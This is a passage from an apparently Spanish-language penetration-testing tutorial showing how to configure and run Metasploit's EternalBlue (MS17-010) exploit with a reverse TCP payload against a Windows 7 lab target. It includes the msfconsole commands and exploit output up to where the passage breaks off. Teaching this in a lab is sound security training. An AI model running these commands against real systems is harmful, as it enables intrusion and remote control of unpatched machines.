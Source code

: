 ## Using Payloads

Es hora de configurar nuestros parámetros tanto para el módulo de exploit como para el módulo de payload. Para la parte de exploit, necesitaremos configurar lo siguiente:

|**Parameter**|**Description**|
|---|---|
|`RHOSTS`|La dirección IP del host remoto, la máquina objetivo.|
|`RPORT`|No requiere un cambio, solo una verificación de que estamos en el puerto 445, donde SMB está ejecutándose.|

Para la parte del payload, necesitaremos configurar lo siguiente:

|**Parameter**|**Description**|
|---|---|
|`LHOST`|La dirección IP del host, la máquina del atacante.|
|`LPORT`|No requiere un cambio, solo una verificación de que el puerto no está ya en uso.|

Si queremos verificar rápidamente la dirección IP de nuestro LHOST, siempre podemos usar el comando `ifconfig` directamente desde el menú de msfconsole.

### MSF - Exploit and Payload Configuration

```r
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```

Luego, podemos ejecutar el exploit y ver qué devuelve. Observa las diferencias en la salida a continuación:

```r
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0

```